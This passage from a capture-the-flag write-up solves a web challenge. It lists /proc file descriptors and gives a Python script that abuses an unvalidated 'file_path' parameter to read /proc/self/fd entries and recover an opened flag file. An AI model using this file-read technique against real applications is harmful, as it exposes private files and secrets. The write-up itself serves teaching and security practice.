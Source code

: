 ```bash
lrwx------    64 user 27 Aug 21:23   3 -> anon_inode:[eventpoll]
lr-x------    64 user 27 Aug 21:23   4 -> pipe:[130433]
l-wx------    64 user 27 Aug 21:23   5 -> pipe:[130433]
lr-x------    64 user 27 Aug 21:23   6 -> pipe:[130434]
l-wx------    64 user 27 Aug 21:23   7 -> pipe:[130434]
lrwx------    64 user 27 Aug 21:23   8 -> anon_inode:[eventfd]
lrwx------    64 user 27 Aug 21:23   9 -> anon_inode:[eventpoll]
lr-x------    64 user 27 Aug 21:23   10 -> pipe:[128748]
l-wx------    64 user 27 Aug 21:23   11 -> pipe:[128748]
lrwx------    64 user 27 Aug 21:23   12 -> anon_inode:[eventfd]
lrwx------    64 user 27 Aug 21:23   13 -> anon_inode:[eventpoll]
lr-x------    64 user 27 Aug 21:23   14 -> pipe:[130435]
l-wx------    64 user 27 Aug 21:23   15 -> pipe:[130435]
lrwx------    64 user 27 Aug 21:23   16 -> anon_inode:[eventfd]
lrwx------    64 user 27 Aug 21:23   17 -> /dev/pts/2
lr-x------    64 user 27 Aug 21:23   18 -> /dev/null
lrwx------@   64 user 27 Aug 21:23   19 -> socket:[127948]
lrwx------    64 user 27 Aug 21:23   20 -> /dev/pts/2
lr-x------    64 user 27 Aug 21:23   22 -> /tmp/flag.txt
```

And there we go, file descriptor with ID of 22 is the flag file.

```bash
└─$ cat /proc/50262/fd/22
d4rkc0de{LETMEIN}   
```

## Solution

Because in the Analysis section we did manual read on file descriptor we had to find process id, but since application does this for us we can utilize `/proc/self/` (self being the current process id).

_/proc/self/ directory is a link to our current running processes. Remember that in Linux everything is a file._

```py
import requests

URL = 'http://64.227.131.98:40002'
REGISTER = URL + '/register'
BUCKET   = URL + '/bucket'

# Register User
user = {"user_id": "0pwned", "user_password": "pwned"}
resp = requests.get(REGISTER, params=user)
print(resp.text)

# Open Flag
payload = {**user, "file_path": f"/app/flag.txt"}
resp = requests.get(BUCKET, params=payload)
print("[*] Flag Buffer Opened")

# Read FD
for i in range(32, 2, -1):
    payload = {**user, "file_path": f"/proc/self/fd/{i}"}
    resp = requests.get(BUCKET, params=payload)
    if resp.status_code != 500:
        print(f"Found Readable File: {resp.text}{' '*16}")
        if 'd4rk' in resp.text: break
    print(f"Trying File Descriptor: /proc/self/fd/{i}")    
```
